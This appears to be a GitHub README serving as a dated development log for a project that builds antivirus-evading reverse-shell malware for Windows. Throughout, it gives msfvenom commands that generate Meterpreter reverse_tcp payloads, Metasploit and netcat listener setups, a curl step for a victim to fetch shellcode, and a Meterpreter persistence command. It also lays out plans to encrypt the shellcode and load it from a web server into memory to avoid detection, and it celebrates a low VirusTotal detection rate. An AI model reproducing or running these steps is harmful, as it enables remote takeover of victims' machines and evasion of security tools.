


# reverse-shell
Obfuscated reverse-shell shellcode aimed to bypass signature-based antivirus algorithms.

# 10/19/2024

Russell: 
    Uploaded 10-19-obfuscate. This folder contains a python script which encrypts a binary file and then a stub which decrypts a binary file and then executes it. This shellcode DOES touch the disk, however; it is the first working  
    reverse shell executable that has gone through our unique encrypt/decrypt process.Virus Total scored it 11/73 security vendors detecting this malware. Not to mention Microsoft does not detect this as malware.  This is a great milestone for what we are trying to accomplish and expose. What is needed next: modify the stub to retrieve the raw shellcode from a web server and then download it to dynamically 
    allocated memory. This way way no obscure shellcode ever touches the disk. Then, we test on virus total and go from there.

# 10/18/2024
Russell: 
    uploaded main-stub.c
    This "stub" successfully executes our malicous shellcode!!! Feelsgoodman.

To create payload:

        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={IP} LPORT={PORT} -f exe -o file.exe
        

I converted a working reverse shell exe to a raw binary file:

        msfvenom -p windows/exec CMD=file.exe -f raw -o file.raw

To listen:

        msfconsole -q -x "use multi/handler; set payload windows/x64/shell/reverse_tcp; set lhost {IP}; set lport {port}; exploit"

Then, I put the binary file into a hex editor and then converted that hex machine code to a .c file
to be stored as an unsigned character array containing our malicous hex machine code.
Then, I put the hex machine code inside of main-stub.c
compiled and then muah, perfection. Works great. So now what is next to do is to make a python script to encrypt the shellcode and then modify the main-stub.c to decrypt the shellcode and then execute. Oh, and of course the encrypted shellcode should be uploaded to a cloud so it never touches the user's disk.

# 10/17/2024
Russell:  

Uploaded winsock-tcp-8448.cpp and winsock-tcp-8448.exe

These are working reverse shells, but they are easily detected as malware. Obfuscation needed. 
        -to listen for winsock reverse shell as attacker: 
            
            $nc -nvlp 8448

We could obfuscate using caesar cipher. It would go undectected by windows security; however, not completely undetected
    on virustotal. 
    (see https://www.youtube.com/watch?v=hjNLylCAmBo&list=PLT3EmOikjcyY2t6zVJT7rSB1sqK2IMq4e&index=2&ab_channel=RedSiege)

"Jigsaw" and "Jargon" encryption techniques seem to be effective at avoiding detection. 

  Basically where we are at right now is we have functional reverse shell executables and a shellcode version of it. We need to create a python program
to encrypt the shellcode. then, we need to make a c program that takes the shellcode as input, decrypts, and executes it- all without detection by antivirus.
Check out the PDF file i uploaded: "Generating-Antivirus-Evasive-Executables-Using-Code-Mutation.pdf"
It is a short and sweet explanation of what we are trying to accomplish.

This is a good video explanation of getting the shellcode to run: (https://www.youtube.com/watch?v=2tmUksnQiNA&ab_channel=CosmodiumCyberSecurity)
    

# 10/16/2024
Russell:  

  uploaded payload-revshell-8448.exe
  
  uploaded shellcode-tcp-8448-c

      payload-revshell-8448.exe is a WORKING windows executable which connects to the attacker listening! It was compiled using msfvenom.
    the only down side is that it is easily detectable by antivirus (that is a good thing ethically- obviously)

      Now, we could call it a day and just convert the exe to a .jpg or .pdf (see https://www.youtube.com/watch?v=cXEkSQl9wmw&ab_channel=ebolaman)
      BUT our purposal that we execute obfuscated shellcode.
    
      We want to expose a day0 trojan.... so we still need to obfuscate the shellcode version of this exe that was compiled by msfvenom
    (see shellcode-tcp-8448-c.txt)

    This executable works so then we should be able to execute this shellcode.
  
  Steps needed in the main c program:
  
      - Download shellcode payload (HTTP GET REQUEST) OR use shellcode-tcp-8448-c.txt file in repo
      
      - parse shellcode properly:
          - there should be no Null bytes (0x00), Line feeds (0x0A), carriage returns (0x0D), or Form feeds (0x0C)
          - only the shellcode instructions stored into char* memBuffer. 
          - then, loop through memBuffer[] and save contents as hexidecimal machine code to the dynamically 
              allocated unsigned char shellcode[]
              
      - execute machine code within shellcode[]

  Uploaded main.cpp

  Right now, the main.cpp downloads the shellcode, converts it to dynamic allocated memory that is reconizable to the system as hexidecimal instructions , and prints the the converted shellcode.
    
  Here is the shellcode before conversion:
  
  

  Here is the shellcode after conversion:
  
  

  We still need to figure out how to execute this shellcode so that it connects the user to the attacker.

  # 10/15/2024
  To-do: create a c program to download the shellcode and execute it. 
  
Russell: 
          Check out this code generated by chatGPT:     https://chatgpt.com/share/670ecd31-e6f4-8007-975a-aa463a4bbc49
           It lays the foundation for what we are attempting to do. It has not been tested thoroughly but is a good reference
           to the steps required for the program executable.

# 10/14/2024:
    
Russell: 
      - created GitHub repo and uploaded the research paper as well as our proposal.
      - created and uploaded payload-22.c

  To create a payload:
            
      $msfvenom -p windows/meterpreter/reverse_tcp lhost={IP of attacker} lport={port #} --format c -o payload-22.c -b "\x00\x0A\x0\x0C\x0D"

  An alternative would be to check out www.exploit-db.com/shellcodes/ for people who create their own shellcode generators. 
      These can be less detectable.
  Here's one i found:
  https://github.com/senzee1984/micr0_shell
      
  To download the shellcode as a victim via web server:
    
      $curl {your http web server}/download.php > payload-22.txt
      
  Attacker must have Metasploit installed in order to listen for the victim's connection on a port.  
      To download the metasploit installer:
      
      $curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
      $chmod 755 msfinstall
      $./msfinstall
      $sudo msfconsole
      

  To run a listener on attackers machine:
      
      $msfconsole
      $use exploit/multi/handler
      $set PAYLOAD windows/x64/meterpreter/reverse_tcp
      $set LHOST your_ip
      $set LPORT 4444
      $exploit
      

  Once the victim has executed the reverse shell, the attacker will see "Meterpreter session 1 opened." Lastly, the
      attacker enters the following command to ensure persistence and enter the shell of the victim:

      $run persistence -p {attacker port} -r {attacker IP}
      $shell

  For a broad video explanation watch the following youtube video:
      https://www.youtube.com/watch?v=17JontiMrWQ

      

  

    
